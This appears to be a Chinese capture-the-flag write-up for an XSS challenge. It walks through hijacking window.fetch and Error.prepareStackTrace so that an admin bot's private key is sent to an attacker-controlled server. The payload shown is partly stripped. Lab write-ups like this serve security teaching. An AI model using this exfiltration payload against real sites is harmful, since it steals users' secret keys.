





## 基本信息

- 题目名称：[NSSRound#13]TimeTrcer
- 题目链接: https://www.nssctf.cn/problem/4081
- 考点清单: 高级XSS技巧、JavaScript作用域漏洞
- 工具清单：无
- 难度: 困难

## 一、看到什么

**题目关键信息列表**：

打开靶机，查看首页：



页面提示需要hash和私钥才能获得有效认证。

查看源码，发现出题人的提示：



通过提示我们得知：

1. 这是一道XSS题目
2. 获取flag需要最高权限(admin)
3. 需要构造XSS payload
4. 可能需要获取admin的私钥

分析页面JavaScript代码：



代码处理笔记的创建和访问，涉及hash和privateKey。

## 二、想到什么解题思路

在首页的note中构造相应的xss的payload来尝试去获取高权限（admin）的私钥

## 三、尝试过程和结果记录

**尝试过程：**

1. 创建一个测试笔记：



系统创建了笔记并提供了链接和私钥。

2. 点击笔记链接，发现页面有以下特点：



页面显示"Admin bot will view your note"，这是一个典型的XSS靶场设置。

3. 关键JavaScript代码分析 (1/2)

查看笔记页面的JavaScript：

```javascript
let hash = new URLSearchParams(location.search).get('hash');
let privateKey = prompt('Provide your Key');

if (confirm('Using this pirvateKey? Cancel For retype')) {
  var data = await( await fetch(`/api/viewNote/${hash}`,{
    method: 'POST', 
    headers: {"Content-Type":"application/json"},
    body: JSON.stringify({privateKey: privateKey})
  })).json();
}
```

这段代码：

1. 获取URL中的hash参数
2. 要求用户输入privateKey
3. 确认使用这个privateKey
4. 向服务器发送请求获取笔记内容
5. privateKey变量在内部作用域中，难以直接访问

4. 关键JavaScript代码分析 (2/2)

继续分析JavaScript：

```javascript
title.innerHTML = data.message.title;
await sleep(500); // 故意延迟500毫秒
content.innerHTML = data.message.content;

report.onclick = async () => {
  alert(await (await fetch(`/api/report/${hash}`)).text());
}
```

代码中存在明显的XSS漏洞：

1. 使用`innerHTML`直接渲染未过滤的内容
2. 有意设置了500ms的延迟
3. 先设置title再设置content
4. "report"按钮调用后会让admin查看笔记
5. 需要在执行过程中提取privateKey

5. 解题难点分析

这道题目的主要挑战在于：

1. **作用域问题**：需要从内部函数作用域获取privateKey变量
2. **执行时机**：需要在函数执行完成前触发我们的代码
3. **错误触发**：需要精确控制错误发生的位置
4. **数据外带**：需要将获取的私钥发送到我们控制的服务器

要解决这些问题，我们需要结合多种高级JavaScript技巧。

6. 解题思路

利用`Error.prepareStackTrace`方法获取调用栈：

```javascript
Error.prepareStackTrace = (_, callsites) => {
  callsites.forEach((callsite) => {
    // 可以通过callsite.getFunction()获取函数引用
  });
};
```

使用``标签的`onerror`事件确保我们的代码尽早执行：

```javascript

```

这比`<script>`标签更可靠，因为图片加载失败会立即触发。

通过将`content`元素设为`undefined`，当代码执行到：

```javascript
content.innerHTML = data.message.content;
```
将触发错误，从而执行我们设置的`Error.prepareStackTrace`函数。

重写`fetch`函数，将privateKey发送到攻击者服务器：

```javascript
var fakefetch = window.fetch;
window.fetch = async (...args) => {
  await fakefetch('http://攻击者服务器', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(args),
  });
};
```

完整XSS Payload

```html
{return true;};
var fakefetch = window.fetch; 
window.fetch = async (...args) => {
  await fakefetch('http://ip:port', {
    method: 'POST',
    mode: 'no-cors',
    body: JSON.stringify(args),
  }); 
}; 
window.content = undefined; 
var fetched = false; 
Error.prepareStackTrace = (_, callsites) => {
  console.log('jacked');
  callsites.forEach((callsite) => {
    if(fetched == false){
      callsite.getFunction()(); 
      fetched =true
    }
  }); 
};" />
```

## 四、总结与反思：

操作流程：

1. 创建笔记，标题中插入XSS payload
2. 设置笔记内容为任意值
3. 点击report按钮让admin查看笔记
4. admin访问笔记页面
5. 图片加载失败，触发onerror事件
6. payload重写confirm函数，总是返回true
7. 重写fetch函数，将请求数据发送到攻击者服务器
8. 将content设为undefined，引发错误
9. 报错触发Error.prepareStackTrace处理
10. 通过callsite.getFunction()()执行内部作用域函数
11. 重写的fetch函数将privateKey发送到攻击者服务器